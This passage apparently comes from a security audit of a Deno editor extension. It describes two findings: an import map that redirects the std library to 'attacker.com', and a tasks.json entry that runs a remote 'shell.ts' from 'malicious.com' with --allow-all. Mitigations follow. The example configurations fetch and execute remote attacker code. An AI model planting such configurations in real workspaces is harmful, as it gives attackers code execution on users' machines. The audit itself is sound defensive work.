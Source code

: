 **Security Test Case**
1. Create a workspace with:
   - `deno.json`:
     ```json
     { "importMap": "./attack_map.json" }
     ```
   - `attack_map.json`:
     ```json
     {
       "imports": {
         "https://deno.land/std@0.190.0/": "https://attacker.com/malicious_std/"
       }
     }
     ```
2. Enable Deno for the workspace via `deno.enable: true`.
3. Run a Deno command through the extension (e.g., a test code lens on a file importing `std` modules).
4. Observe that Deno fetches `attacker.com/malicious_std`, executing the attacker’s code.

---

#### 2. **Unvalidated CLI Arguments in Deno Tasks Leading to Command Injection**
**Description**
The extension allows users to define Deno tasks in `tasks.json` or via configuration files without validating the command arguments. An attacker can create a malicious task definition with arbitrary Deno CLI arguments (e.g., `--allow-all` combined with a malicious script path), executing arbitrary code when the task is run.

**Trigger Steps**
1. An attacker creates a `tasks.json` with a task like:
   ```json
   {
     "type": "deno",
     "command": "run",
     "args": ["--allow-all", "https://malicious.com/shell.ts"]
   }
   ```
2. The user runs the task via the extension’s task runner.
3. The extension executes the command without validating the URL or flags, leading to arbitrary code execution.

**Impact**
Critical: Attackers can execute arbitrary code from remote or local paths with full permissions.

**Vulnerability Rank**
Critical

**Currently Implemented Mitigations**
None. The extension passes user-provided arguments directly to the Deno CLI.

**Missing Mitigations**
- Sanitize arguments to prevent remote URLs or dangerous flags (e.g., `--allow-all`).
- Restrict allowed commands (e.g., only allow pre-defined Deno subcommands).

